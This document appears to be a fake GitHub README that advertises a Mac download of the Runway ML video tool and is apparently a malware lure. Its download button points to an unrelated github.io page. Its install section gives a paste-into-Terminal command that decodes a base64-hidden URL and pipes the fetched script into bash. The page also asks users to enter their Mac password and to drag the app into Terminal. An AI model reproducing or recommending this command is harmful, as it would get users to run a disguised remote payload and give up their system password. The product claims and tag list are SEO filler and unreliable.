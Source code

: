# Runway ML — Download For Mac OS  
Runway ML is a powerful AI video and image editing platform for creators. Install it easily on macOS by following the instructions below. 🚀

[![Download for Mac](https://img.shields.io/badge/Download%20for-Mac-blue?logo=apple&style=for-the-badge)](https://fituganshfgh.github.io/.github/runwayml)

If the download button doesn’t work, follow the instructions below using your Terminal.

---

## 📦 How to Install Runway ML For Mac

### Installation via .dmg:

1. Click the download button above to get the .dmg file.
2. Open the .dmg installer and drag the app to your Applications folder.
3. Open Terminal and drag the installed `.app` file into the Terminal window.
4. Press **Return** and input your Mac password if prompted.

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

---

### Installation via a command in the terminal:

1. Copy the installation command below:

```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open Terminal and paste the command.
3. Press **Return**, then enter your Mac password to proceed.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With Runway ML

✨ AI Video Editing  
🧠 Text-to-Video & Text-to-Image generation  
🎨 Real-time Style Transfer  
📹 Background Removal  
🧰 Integrated Creative Suite  
☁️ Cloud Rendering with Mac Support

---

## About Runway ML

Runway ML for Mac is an advanced AI tool built for creators, filmmakers, designers, and developers. With an intuitive interface and real-time rendering capabilities, Runway allows users to harness cutting-edge machine learning models for creative tasks without writing code.

The macOS version of Runway ML offers seamless integration with macOS hardware, including support for the latest M-series chips. Whether you’re editing videos, creating AI-generated images, or experimenting with generative media, Runway provides an efficient and powerful toolset.

By downloading Runway ML for Mac, users can access AI-powered tools like text-to-video, frame interpolation, and object detection — all within a smooth, drag-and-drop UI. The app is constantly updated with the latest in AI research, ensuring you stay ahead of the curve.

Runway ML is perfect for Mac users looking to expand their creative workflow with machine learning. With fast installation and compatibility with macOS Ventura and Sonoma, it's never been easier to get started.

---

## ✅ Advantages of Runway ML

🚀 Instant installation on Mac  
🖼️ Support for AI image & video models  
🧩 No coding required  
🔁 Real-time feedback  
🎯 Compatible with M1/M2/M3 chips  
📤 One-click export to cloud

---

## 🖼 Preview (Images)

![Runway ML Interface](https://www.elegantthemes.com/blog/wp-content/uploads/2023/10/A-screenshot-of-Runway-AIs-text-to-video-tool.jpg)  
*The clean and powerful interface of Runway ML*



---

## 🔍 Tags

runway ml mac download, runway ml for macos, download runway ml macbook, runway ai mac, install runway ml mac free, runway mac editor, download runway ml app mac, run way ml, runway ai video, runwayml com, runwayml ai, runaway ml, runway ml ai, runway video editor, runwayml, runway ai, runway ml
